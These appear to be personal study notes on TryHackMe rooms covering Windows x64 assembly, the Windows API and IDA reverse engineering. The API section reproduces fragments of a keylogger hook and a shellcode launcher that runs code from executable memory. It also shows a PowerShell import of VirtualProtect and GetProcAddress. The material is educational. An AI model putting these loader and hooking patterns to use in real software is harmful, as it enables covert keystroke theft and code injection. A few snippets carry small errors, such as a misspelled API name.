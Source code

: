 # Winassembly

**https://tryhackme.com/r/room/win64assembly**

A fairly rudimentary room. The first few modules are just simple learning of number systems, registers, and the like.

We're then introducted to more advanced concepts such as assembly instructions, compare flags, and calling conventions.

The last one I found most insightful, I finally understood what the `__fastcall` paramter meant in function definitions arising from Windows decompilation— its the Windows calling convention. A few more details of it are given below

- The first four non-floating-point parameters are passed left-to-right in registers `rcx`, `rdx`, `r8` and `r9` respectively.
- The first four floating-point parameters are passed in registers `xmm0` to `xmm3`.
- Any more than four parameters and they are pushed to the stack from right to left.
- A function's return value is passed to `rax` if it's a non-floating-point or `xmm0` if it's a float or double.

We also learn a bit about a different calling convention, `cdecl`.

The final module teaches us about the stack and the functioning of stack-frames on function calls.

# Win API

**https://tryhackme.com/r/room/windowsapi**

In this room we learn about the intricacies and working of the Windows API.

We start with a basic introduction to kernel modes and the components of the API.

After that, we dive deeper into the API and understand how ASLR is overcome through the Windows header file and P/Invoke.

Then we learn about the API calling structure and its function call naming scheme, which is as follows:

- **A:** Represents an 8-bit character set with ANSI encoding
- **W:** Represents a Unicode encoding
- **Ex:** Provides extended functionality or in/out parameters to the API call

After that we learn about the C/C++ implementation of the API and expand on the `<Windows.h>` header file's functionality through an example program for creating a pop-up window.

```c
HWND CreateWindowExA(
  [in]           DWORD     dwExStyle, // Optional windows styles
  [in, optional] LPCSTR    lpClassName, // Windows class
  [in, optional] LPCSTR    lpWindowName, // Windows text
  [in]           DWORD     dwStyle, // Windows style
  [in]           int       X, // X position
  [in]           int       Y, // Y position
  [in]           int       nWidth, // Width size
  [in]           int       nHeight, // Height size
  [in, optional] HWND      hWndParent, // Parent windows
  [in, optional] HMENU     hMenu, // Menu
  [in, optional] HINSTANCE hInstance, // Instance handle
  [in, optional] LPVOID    lpParam // Additional application data
);
```

implementation:

```c
#include <Windows.h>

HWND hwnd = CreateWindowsEx(
    0,
    CLASS_NAME,
    L"Hello THM!",
    WS_OVERLAPPEDWINDOW,
    CW_USEDEFAULT, CW_USEDEFAULT, CW_USEDEFAULT, CW_USEDEFAULT,
    NULL,
    NULL,
    hInstance,
    NULL
);
```

After, we learn about the API's implementation in .NET and PowerShell. Since there's no `Windows.h`, we use `DLLImport` instead with the exact API call we're looking for.

The PowerShell implementation is nearly identical except it uses methods instead of classes. We also need to create a type for each DLL pointer we import, which is then compiled using the C# compiler.

We use an example program here that prints the details of the user's PC.

**.NET:**

```java
class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetComputerNameA(StringBuilder lpBuffer, ref uint lpnSize);
}

static void Main(string[] args) {
    bool success;
    StringBuilder name = new StringBuilder(260);
    uint size = 260;
    success = GetComputerNameA(name, ref size);
    Console.WriteLine(name.ToString());
}
```

**PowerShell:**

```powershell
$MethodDefinition = @"
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
"@;
```

```powershell
$Kernel32 = Add-Type -MemberDefinition $MethodDefinition -Name 'Kernel32' -NameSpace 'Win32' -PassThru;
```

```powershell
[Win32.Kernel32]::<Imported Call>()
```

We now learn about the security features and vulnerabilities behind certain API calls, and how they can be abused. This concludes with a case study on two malwares, a keylogger and a shellcode launcher.

**keylogger:**

```java
public static void Main() {
    _hookID = SetHook(_proc);
    Application.Run();
    UnhookWindowsHookEx(_hookID);
    Application.Exit();
}
private static IntPtr SetHook(LowLevelKeyboardProc proc) {
    using (Process curProcess = Process.GetCurrentProcess()) {
        return SetWindowsHookEx(WHKEYBOARDLL, proc, GetModuleHandle(curProcess.ProcessName), 0);
    }
}
```

**Shellcode:**

```java
UInt32 funcAddr = VirtualAlloc(0, (UInt32)shellcode.Length, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
Marshal.Copy(shellcode, 0, (IntPtr)(funcAddr), shellcode.Length);
IntPtr hThread = IntPtr.Zero;
UInt32 threadId = 0;
IntPtr pinfo = IntPtr.Zero;
hThread = CreateThread(0, 0, funcAddr, pinfo, 0, ref threadId);
WaitForSingleObject(hThread, 0xFFFFFFFF);
return;
```

# Windows Reversing Intro

**https://tryhackme.com/r/room/windowsreversingintro**

This was another basic room that taught the usage of the  IDA decompiler and some basic Windows Reverse Engineering knowledge.

We're first told about function prologues and epilogues, and how a stack frame is created on top of older function stack frames. Then, we move to IDA, where we're taught about function inlining, i.e. the process of removing a function call and putting the contents of it in the calling function directly.

Then, we learn about structures and classes in assembly, and how their contents are stored.

Finally, we learn about DLLs, how they operate, and how they are used in recovering function names in decompilers. We also learn about function name mangling, how you run a DLL for test purposes, and how to analyze files which cannot not be traditionally \`executed\` like DLLs.

